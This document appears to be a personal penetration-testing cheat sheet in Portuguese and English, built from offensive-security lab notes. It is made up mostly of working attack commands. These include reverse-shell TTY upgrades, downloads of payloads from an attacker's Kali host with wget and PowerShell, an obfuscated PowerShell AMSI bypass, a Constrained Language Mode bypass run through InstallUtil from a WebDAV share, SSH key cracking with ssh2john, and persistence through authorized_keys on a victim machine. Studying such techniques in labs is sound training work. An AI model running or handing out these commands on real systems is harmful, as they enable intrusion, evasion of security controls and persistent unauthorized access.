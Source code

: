 ### RDP

For windows with share and 85% screen

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```


Para habilitar o acesso RDP:

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0 /f
```

Para desabilitar o acesso RDP:

shell

```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 1 /f
```





### Linux

binaries Path

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

###  Interactive Shell

Arrumando interactive TTY using Python

```shell
# Enter while in reverse shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo; fg


# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```




### File Transfer

#### HTTP

The most common le transfer method.

```shell
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```


### Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Chave privada cracking

Seguindo a metodologia de cracking, nosso próximo passo é transformar o chave privada em formato hash para nossas ferramentas de cracking. Usaremos o **ssh2john** script de transformação do conjunto JtR e salve o hash resultante para **ssh.hash**.

```shell
kali@kali:~/passwordattacks$ ssh2john id_rsa > ssh.hash

kali@kali:~/passwordattacks$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e7373682d6b65792d7631000000000a6165733235362d6374720000000662637279707400000018000000107059e78a8d3764ea1e883fcdf592feb7000000100000000100000197000000077373682...
```


##### WEBDAV

```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## AMSI bypass

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf =  @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## CLM

Para bypassar o CLM, usei o seguinte methodo: https://github.com/calebstewart/bypass-clm

Primeiro subi o webdav para hostear o payload:
- https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe

```sh
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Depois montei o webdav no alvo:

```shell
net use Z: http://192.168.45.151
```

Copiei o payload para a pasta tasks:

```shell
copy Z:\PsBypassCLM.exe C:\Windows\Tasks\bypass-clm.exe
```

Rodei o bypass:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\bypass-clm.exe"
```

Consegui bypassar o CLM

```powershell
PS C:\windows\tasks> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
FullLanguage
```

## MSSQL Client

- https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py

## SSH-KEYGEN

Vamos dar uma olhada na máquina linuxvictim no laboratório. Se obtivermos acesso como usuário _linuxvictim_ ou _root_ , podemos adicionar uma chave pública SSH ao arquivoauthorized_keys do _linuxvictim_ para manter o acesso. Para fazer isso, primeiro precisaremos criar um par de chaves SSH em nossa Kali VM.

Podemos configurar um par de chaves SSH em nossa VM Kali com ssh-keygen .

```
kali@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:VTLfYd2shCqYOTkpZqeHRrqxnKjyVViNgbmVMpKyEug root@kali
The key's randomart image is:
+---[RSA 2048]----+
|.  . o..  o ..oo.|
|+ o = o+   =.o..+|
|.+ . =o*. ...... |
|oE  *oX ...   .  |
|.  =.=.oS.       |
|  o +..          |
| o *..           |
|o =.             |
|+..              |
+----[SHA256]-----+
```

> Listagem 11 – Gerando um par de chaves SSH

Se aceitarmos os valores padrão para o caminho do arquivo, um par de arquivos será criado em nosso diretório ~/.ssh/ . Obteremos id_rsa para a chave privada e id_rsa.pub para a chave pública. Podemos então capturar o conteúdo de id_rsa.pub e copiá-lo para a área de transferência.

Na máquina linuxvictim, podemos inserir a chave pública no arquivoauthorized_keys do usuário _linuxvictim_ com o seguinte comando.

```
linuxvictim@linuxvictim:~$ echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8= kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```

> Listagem 12 – Inserindo a chave pública

Podemos então fazer ssh de nossa VM Kali usando nossa chave privada para a máquina _linuxvictim_ e fazer login como usuário _linuxvictim_ sem uma senha. Se não especificarmos uma chave privada SSH para usar, o cliente SSH usará aquela em ~/.ssh/id_rsa .

```
kali@kali:~$ ssh linuxvictim@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
linuxvictim@linuxvictim:~$ 
```
